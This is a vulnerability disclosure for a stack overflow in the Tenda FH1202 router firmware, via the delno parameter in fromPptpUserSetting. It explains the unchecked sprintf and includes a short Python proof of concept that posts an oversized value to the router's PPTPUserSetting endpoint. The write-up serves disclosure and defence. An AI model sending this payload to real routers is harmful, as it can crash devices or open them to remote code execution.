


# Tenda FH1202 fromPptpUserSetting
### Overview
vendor: Tenda

product: FH1202

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the delno parameter in the fromPptpUserSetting function.

### Vulnerability details
In function fromPptpUserSetting line 17, it reads in a user-provided parameter `delno`, and the variable Var is assigned to the variable `s`. Then, the variable s is  passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_4`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/PPTPUserSetting"

data = {
    "delno": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```


